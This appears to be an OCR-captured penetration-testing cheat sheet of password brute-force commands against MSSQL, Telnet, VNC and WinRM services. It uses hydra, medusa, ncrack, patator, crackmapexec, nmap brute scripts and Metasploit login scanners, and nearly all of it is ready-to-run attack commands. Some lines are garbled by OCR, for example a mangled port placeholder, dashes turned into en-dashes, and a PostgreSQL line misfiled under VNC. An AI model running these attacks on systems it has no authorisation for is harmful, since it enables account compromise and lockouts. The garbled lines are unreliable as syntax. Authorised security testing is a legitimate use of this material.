 #Use the NetBIOS name of the machine as domain

crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt <IP> mssql

medusa -h <IP> –U /root/Desktop/user.txt –P /root/Desktop/pass.txt –M mssql

nmap -p 1433 --script ms-sql-brute --script-args mssql.domain=DOMAIN,userdb=customuser.txt,passdb=custompass.txt,ms-sql-brute.brute-windows-accounts <host> #Use domain if needed. Be careful with the number of passwords in the list, this could block accounts

msf> use auxiliary/scanner/mssql/mssql_login #Be careful, you can block accounts. If you have a domain set it and use USE_WINDOWS_ATHENT

Telnet

hydra -l root -P passwords.txt [-t 32] <IP> telnet

ncrack -p 23 --user root -P passwords.txt <IP> [-T 5]

medusa -u root -P 500-worst-passwords.txt -h <IP> -M telnet

VNC

hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT> <IP> vnc

medusa -h <IP> –u root -P /root/Desktop/pass.txt –M vnc

ncrack -V --user root -P /root/Desktop/pass.txt <IP>:>POR>T

patator vnc_login host=<IP> password=FILE0 0=/root/Desktop/pass.txt –t 1 –x retry:fgep!='Authentication failure' --max-retries 0 –x quit:code=0

use auxiliary/scanner/vnc/vnc_login

nmap -sV --script pgsql-brute --script-args userdb=/var/usernames.txt,passdb=/var/passwords.txt -p 5432 <IP>

#Metasploit

use auxiliary/scanner/vnc/vnc_login

set RHOSTS <ip>

set PASS_FILE /usr/share/metasploit-framework/data/wordlists/passwords.lst

Winrm

crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt